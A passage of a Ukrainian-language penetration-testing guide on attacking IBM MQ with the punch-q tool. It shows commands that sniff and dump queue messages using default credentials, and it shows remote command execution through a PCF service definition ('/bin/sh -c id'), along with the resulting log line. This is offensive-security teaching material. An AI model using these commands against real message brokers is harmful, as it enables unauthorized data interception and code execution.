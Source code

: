 ### Вивантаження повідомлень

Ви можете націлитися на чергу(і)/канал(и), щоб перехопити / вивантажити повідомлення з них (недеструктивна операція). _Приклади:_
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages sniff
```

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages dump
```
**Не соромтеся ітерувати всі виявлені черги.**

### Виконання коду

> Деякі деталі перед продовженням: IBM MQ можна контролювати кількома способами: MQSC, PCF, Control Command. Деякі загальні списки можна знайти в [документації IBM MQ](https://www.ibm.com/docs/en/ibm-mq/9.2?topic=reference-command-sets-comparison).
> [**PCF**](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=commands-introduction-mq-programmable-command-formats) (**_Програмовані формати команд_**) - це те, на чому ми зосереджені для віддаленої взаємодії з екземпляром. **punch-q** і, крім того, **pymqi** базуються на взаємодії з PCF.
>
> Ви можете знайти список команд PCF:
>
> - [З документації PCF](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=reference-definitions-programmable-command-formats), та
> - [з констант](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=constants-mqcmd-command-codes).
>
> Одна цікава команда - це `MQCMD_CREATE_SERVICE`, а її документація доступна [тут](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=formats-change-copy-create-service-multiplatforms). Вона приймає як аргумент `StartCommand`, що вказує на локальну програму на екземплярі (приклад: `/bin/sh`).
>
> Також у документації є попередження про команду: _"Увага: ця команда дозволяє користувачу виконувати довільну команду з правами mqm. Якщо надано права на використання цієї команди, зловмисний або недбалий користувач може визначити сервіс, який пошкодить ваші системи або дані, наприклад, видаливши важливі файли."_
>
> _Примітка: завжди відповідно до документації IBM MQ (Посібник з адміністрування), також є HTTP-інтерфейс на `/admin/action/qmgr/{qmgrName}/mqsc` для виконання еквівалентної команди MQSC для створення сервісу (`DEFINE SERVICE`). Цей аспект ще не охоплений тут._

Створення / видалення сервісу з PCF для віддаленого виконання програми може бути виконано за допомогою **punch-q**:

**Приклад 1**
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/sh" --args "-c id"
```
> У журналах IBM MQ ви можете прочитати, що команда успішно виконана:
>
> ```bash
> 2023-10-10T19:13:01.713Z AMQ5030I: Команда '808544aa7fc94c48' розпочата. ProcessId(618). [ArithInsert1(618), CommentInsert1(808544aa7fc94c48)]
> ```
